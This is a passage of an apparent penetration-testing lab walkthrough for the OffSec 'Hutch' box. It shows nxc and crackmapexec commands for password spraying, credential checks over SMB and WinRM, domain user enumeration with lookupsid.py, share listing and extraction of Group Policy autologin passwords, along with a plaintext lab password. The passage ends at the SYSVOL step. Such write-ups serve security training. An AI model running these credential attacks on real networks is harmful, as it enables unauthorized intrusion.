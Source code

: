 ### Password Spraying

```bash
sudo nxc smb $IP -u users -p users
```

Didn’t work.

## Privileges as fmcsorley

**Checking obtained credentials**

```bash
sudo nxc smb $IP -u fmcsorley -p 'CrabSharkJellyfish192’
```

![image.png](image%2010.png)

Checking shell access:

```bash
sudo nxc winrm $IP -u fmcsorley -p 'CrabSharkJellyfish192'
```

![image.png](image%2011.png)

**User Enumeration**

```bash
lookupsid.py hutch.offsec/fmcsorley:'CrabSharkJellyfish192'@hutch.offsec | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

**Password Spraying**

```bash
sudo nxc smb $IP -u users -p 'CrabSharkJellyfish192'
```

![image.png](image%2012.png)

**Checking Shares**

```bash
sudo nxc smb $IP -u fmcsorley -p 'CrabSharkJellyfish192' --shares
```

![image.png](image%2013.png)

**Passwords in Group Policy SYSVOL share**

```bash
sudo crackmapexec smb $IP -u 'fmcsorley' -p 'CrabSharkJellyfish192' -M gpp_autologin
```

![image.png](image%2014.png)

**Digging to SYSVOL Share**
